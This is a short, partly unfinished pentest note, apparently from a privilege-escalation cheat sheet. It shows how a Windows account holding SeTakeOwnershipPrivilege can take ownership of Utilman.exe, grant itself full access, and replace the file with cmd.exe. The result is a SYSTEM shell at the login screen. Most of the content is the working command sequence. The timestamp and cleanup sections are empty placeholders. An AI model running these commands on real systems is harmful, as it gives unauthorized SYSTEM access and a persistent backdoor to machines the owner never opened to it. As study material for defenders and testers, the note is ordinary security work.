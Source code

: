 # Living off the Land

## 01 - Detect

Enumerate in the current local username and look for `SeTakeOwnershipPrivilege`.

```
C:\> whoami /priv
```

## 02 - Exploit

TODO: Fill in the information

We'll take note of the timestamp before making modifications.

```
PS C:\>
```

Grant full access to any program let's use `Utilman.exe` as an example.

```
C:\> icacls C:\Windows\System32\Utilman.exe

C:\> takeown /f C:\Windows\System32\Utilman.exe

C:\> icacls C:\Windows\System32\Utilman.exe /grant <username>:F

C:\> copy C:\Windows\System32\Utilman.exe C:\Windows\System32\Utilman.bkp

C:\> copy C:\Windows\System32\cmd.exe C:\Windows\System32\Utilman.exe
```

## 03 - Cleanup

```
C:\> 
```

---
## References

- [VK9: [Privilege Escalation] Windows Privileges: SeTakeOwnership](https://vk9-sec.com/privilege-escalation-windows-privileges-setakeownership/)